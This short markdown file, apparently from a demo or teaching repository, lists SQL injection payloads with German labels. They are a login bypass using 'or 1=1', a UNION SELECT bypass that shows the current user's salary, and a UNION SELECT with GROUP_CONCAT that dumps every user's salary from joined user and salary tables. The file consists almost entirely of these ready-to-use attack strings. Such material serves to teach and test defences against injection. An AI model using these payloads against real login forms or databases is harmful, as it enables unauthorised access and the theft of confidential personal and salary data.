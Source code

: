 #Login Bypass and SQL Injection Examples

## Login Bypass Example

admin' or 1=1 --

## Login Bypass with UNION SELECT Example (zeigt ein Gehalt des aktuellen Users an)

admin' UNION SELECT username, email, position, gehalt FROM User JOIN Gehaelter ON User.id = Gehaelter.user_id --

## SQL Injection with UNION SELECT and GROUP_CONCAT Example (zeigt alle Gehälter an)

' UNION SELECT GROUP_CONCAT(username || ': ' || gehalt || '€', ' | '), 'Alle Gehälter', 'angezeigt', 'hier' FROM User
JOIN Gehaelter ON User.id = Gehaelter.user_id --


